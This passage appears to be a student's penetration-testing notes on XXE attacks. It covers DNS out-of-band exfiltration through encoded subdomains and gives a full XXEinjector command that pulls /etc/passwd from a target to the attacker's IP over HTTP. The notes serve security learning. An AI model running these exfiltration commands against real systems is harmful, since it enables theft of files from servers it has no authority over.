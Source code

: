 in addition to storing our base64 encoded data as a URL parameter, we can also use `DNS OOB Exfiltration` by placing the encoded data as a sub-domain for our URL (ENCODEDTEXT.our.site.com) then use a tool like tcpdump to capture incoming traffic and decode the sub-domain string to get the data 

### Automated OOB exfiltration 

we can also automate the method we just tried with tools like `XXEinjector`   
can clone with: 

```shell
git clone https://github.com/enjoiz/XXEinjector.git
```

then we need to copy the HTTP request and write it to a file with `XXEINJECT` after it as a postion locator: 

![](Images/Pasted%20image%2020240227192810.png)

then we can run the tool with the `--host` or `--httpport` flags for our IP and port, `--file` for the file with the request, and the `--path` for the file we want to read   
we can also use `--oob=http` and `--phpfilter` to repeat the OOB attack we did above with: 

```shell
ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

all exfiltrated files get store din the `Logs` folder under the tool which we can view to see the output 

